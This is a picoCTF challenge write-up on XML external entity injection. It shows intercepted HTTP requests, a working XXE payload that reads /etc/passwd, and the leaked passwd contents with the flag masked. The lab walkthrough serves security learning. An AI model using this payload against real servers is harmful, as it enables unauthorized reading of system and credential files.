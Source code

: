 #### Description

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

## Hints ##

XML external entity Injection

## Process ##


First you need to intercept the petition with a proxy and watch how works the button "details"

```
POST /data HTTP/1.1
Host: saturn.picoctf.net:62455
Content-Length: 61
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:62455
Referer: http://saturn.picoctf.net:62455/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>

<data><ID>1</ID></data>
```

And here is the response

```
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Sat, 30 Sep 2023 23:07:12 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 95
Connection: close

<strong>Special Info::::</strong> University in Kigali, Rwanda offereing MSECE, MSIT and MS EAI
```



Intercept the petition and add an entity , you can find more about entities on XXE but bassically 
What is an entity in XML?

XML entities are **a way of representing an item of data within an XML document, instead of using the data itself**. Various entities are built in to the specification of the XML language. For example, the entities &lt; and &gt; represent the characters < and > .

```
POST /data HTTP/1.1
Host: saturn.picoctf.net:62455
Content-Length: 137
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:62455
Referer: http://saturn.picoctf.net:62455/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE data [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
 ]>
<data><ID>&xxe;</ID></data>
```


And here we see the content 

```
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Sat, 30 Sep 2023 22:48:39 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{*********************}
```